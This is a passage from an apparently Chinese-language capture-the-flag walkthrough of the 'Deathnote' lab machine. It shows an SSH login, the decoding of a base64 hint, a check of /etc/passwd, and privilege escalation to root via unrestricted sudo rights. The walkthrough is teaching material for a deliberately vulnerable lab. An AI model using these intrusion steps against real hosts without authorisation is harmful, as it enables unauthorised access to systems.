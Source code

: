 ```shell
──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ ssh kira@172.16.86.145
kira@172.16.86.145's password:
Linux deathnote 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Nov  8 23:38:03 2023 from 172.16.86.138kira@deathnote:~$ ls
kira.txt
kira@deathnote:~$ cat kira.txt
cGxlYXNlIHByb3RlY3Qgb25lIG9mIHRoZSBmb2xsb3dpbmcgCjEuIEwgKC9vcHQpCjIuIE1pc2EgKC92YXIp
kira@deathnote:~$ echo "cGxlYXNlIHByb3RlY3Qgb25lIG9mIHRoZSBmb2xsb3dpbmcgCjEuIEwgKC9vcHQpCjIuIE1pc2EgKC92YXIp"|base64 -d
please protect one of the following
1. L (/opt)
2. Misa (/var)
```

在目录下发现了kira.txt，内容base64解码后告诉我们让保护L和Misa。看下/var：

```shell
kira@deathnote:~$ cd /var
kira@deathnote:/var$ ls
backups  cache  lib  local  lock  log  mail  misa  opt  run  spool  tmp  www
kira@deathnote:/var$ cat misa
it is toooo late for misa
```

好吧，misa已经遇害了。

## 4. Privilege Escalation

`cat /etc/passwd`没有再发现其他有价值的信息。但是在检查kria权限时发现kria具有管理员权限，我们直接`sudo /bin/bash`输入kria用户的密码就可以切换到root用户：

```shell
kira@deathnote:/var$ sudo -l
Matching Defaults entries for kira on deathnote:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User kira may run the following commands on deathnote:
    (ALL : ALL) ALL
kira@deathnote:/var$ sudo /bin/bash
[sudo] password for kira:
root@deathnote:/var#
```

然后获取到root目录下的root.txt：
